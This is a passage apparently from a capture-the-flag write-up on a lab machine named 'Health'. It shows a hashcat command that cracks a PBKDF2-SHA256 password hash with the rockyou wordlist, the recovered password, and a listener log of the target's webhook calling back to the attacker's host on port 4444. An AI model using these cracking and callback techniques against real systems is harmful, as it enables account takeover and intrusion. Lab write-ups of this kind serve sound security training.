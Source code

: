 ```bash
#command to run
➜  hashcat -m 10900 hash.txt /usr/share/wordlists/rockyou.txt

#cracked hash
sha256:10000:c08zWEliZVcxNA:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=:february15

```
{: .nolineno }

-m is set to 10900 since our password format looks like this scheme here

Now time to go to the webhook and play around it again

![webhhoked.png](/Assets/Pictures/Health/webhhoked.png)

 Here is our result

```bash
Listening on 0.0.0.0 4444
Connection received on 10.10.11.176 42588
POST / HTTP/1.1
Host: 10.10.14.2:4444
Accept: */*
Content-type: application/json
Content-Length: 466

```
{: .nolineno }

# User
